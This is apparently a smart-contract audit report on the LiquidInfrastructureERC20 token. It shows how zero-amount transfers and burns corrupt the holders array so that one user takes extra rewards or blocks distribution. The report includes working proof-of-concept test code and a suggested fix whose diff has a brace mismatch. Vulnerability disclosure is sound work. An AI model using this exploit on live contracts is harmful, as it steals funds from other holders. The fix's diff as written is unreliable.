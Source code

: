 # Holders array can be manipulated by transferring or burning with amount 0, stealing rewards or bricking certain functions
## Impact
LiquidInfrastructureERC20._beforeTokenTransfer() checks if the to address has a balance of 0, and if so, adds the address to the holders array.

LiquidInfrastructureERC20#L142-145
```solidity
bool exists = (this.balanceOf(to) != 0);
if (!exists) {
    holders.push(to);
}
```
However, the ERC20 contract allows for transferring and burning with amount = 0, enabling users to manipulate the holders array.

An approved user that has yet to receive tokens can initiate a transfer from another address to themself with an amount of 0. This enables them to add their address to the holders array multiple times. Then, LiquidInfrastructureERC20.distribute() will loop through the user multiple times and give the user more rewards than it should.
```solidity
for (i = nextDistributionRecipient; i < limit; i++) {
    address recipient = holders[i];
    if (isApprovedHolder(recipient)) {
        uint256[] memory receipts = new uint256[](
            distributableERC20s.length
        );
        for (uint j = 0; j < distributableERC20s.length; j++) {
            IERC20 toDistribute = IERC20(distributableERC20s[j]);
            uint256 entitlement = erc20EntitlementPerUnit[j] *
                this.balanceOf(recipient);
            if (toDistribute.transfer(recipient, entitlement)) {
                receipts[j] = entitlement;
            }
        }

        emit Distribution(recipient, distributableERC20s, receipts);
    }
}
```
This also enables any user to call burn with an amount of 0, which will push the zero address to the holders array causing it to become very large and prevent LiquidInfrastructureERC20.distributeToAllHolders() from executing.

## Proof of Concept
```solidity
it("malicious user can add himself to holders array multiple times and steal rewards", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1, holder2 } = await liquidErc20Fixture();
    const nft = await deployLiquidNFT(nftAccount1);
    const erc20 = await deployERC20A(erc20Owner);

    await nft.setThresholds([await erc20.getAddress()], [parseEther('100')]);
    await nft.transferFrom(nftAccount1.address, await infraERC20.getAddress(), await nft.AccountId());
    await infraERC20.addManagedNFT(await nft.getAddress());
    await infraERC20.setDistributableERC20s([await erc20.getAddress()]);

    const OTHER_ADDRESS = '0x1111111111111111111111111111111111111111'

    await infraERC20.approveHolder(holder1.address);
    await infraERC20.approveHolder(holder2.address);

    // Malicious user transfers 0 to himself to add himself to the holders array
    await infraERC20.transferFrom(OTHER_ADDRESS, holder1.address, 0);

    // Setup balances
    await infraERC20.mint(holder1.address, parseEther('1'));
    await infraERC20.mint(holder2.address, parseEther('1'));
    await erc20.mint(await nft.getAddress(), parseEther('2'));
    await infraERC20.withdrawFromAllManagedNFTs();

    // Distribute to all holders fails because holder1 is in the holders array twice
    // Calling distribute with 2 sends all funds to holder1
    await mine(500);
    await expect(infraERC20.distributeToAllHolders()).to.be.reverted;
    await expect(() => infraERC20.distribute(2))
        .to.changeTokenBalances(erc20, [holder1, holder2], [parseEther('2'), parseEther('0')]);
    expect(await erc20.balanceOf(await infraERC20.getAddress())).to.eq(parseEther('0'));
});

it("malicious user can add zero address to holders array", async function () {
    const { infraERC20, erc20Owner, nftAccount1, holder1 } = await liquidErc20Fixture();

    for (let i = 0; i < 10; i++) {
        await infraERC20.burn(0);
    }
    // I added a getHolders view function to better see this vulnerability
    expect((await infraERC20.getHolders()).length).to.eq(10);
});
```

## Lines of code
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/main/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L142-L145
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/main/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L214-L231

## Tool used
Manual Review

## Recommended Mitigation Steps
Adjust the logic in _beforeTokenTransfer to ignore burns, transfers where the amount is 0, and transfers where the recipient already has a positive balance.
```solidity
function _beforeTokenTransfer(
    address from,
    address to,
    uint256 amount
) internal virtual override {
    require(!LockedForDistribution, "distribution in progress");
    if (!(to == address(0))) {
        require(
            isApprovedHolder(to),
            "receiver not approved to hold the token"
        );
    }
    if (from == address(0) || to == address(0)) {
        _beforeMintOrBurn();
    }
-   bool exists = (this.balanceOf(to) != 0);
-   if (!exists) {
+   if (to != address(0) && balanceOf(to) == 0 && amount > 0)
       holders.push(to);
   }
}
```
